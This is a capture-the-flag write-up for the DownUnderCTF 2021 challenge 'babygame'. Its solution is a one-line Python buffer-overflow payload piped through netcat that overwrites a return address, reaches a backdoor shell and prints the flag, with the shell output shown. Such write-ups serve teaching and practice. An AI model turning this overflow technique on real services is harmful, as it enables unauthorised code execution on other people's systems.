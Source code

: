 # babygame
>Not your typical shell game...

> Admin note: the server runs in a restricted environment where some of your favourite files might not exist. If you need a file for your exploit, use a file you know definitely exists (the binary tells you of at least one!)

> Author: grub

> nc pwn-2021.duc.tf 31907

[babygame](https://drive.google.com/file/d/1HKFroNuq-b-LWmU3S3u2hS6rhEVezxNp/view?usp=sharing)

# Solution

```
┌──(kali㉿kali)-[~/Desktop/DownUnderCTF21]
└─$ (python -c 'print "a"*0x18 + "\xd8\x11@\x00\x00\x00\x00\x00"'; cat) |  nc pwn-2021.duc.tf 31921       148 ⨯ 1 ⚙

Fool me once, shame on you. Fool me twice, shame on me.

Seriously though, what features would be cool? Maybe it could play a song?


W...w...Wait? Who put this backdoor out back here?
ls
flag.txt
pwn
cat flag.txt
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}

```
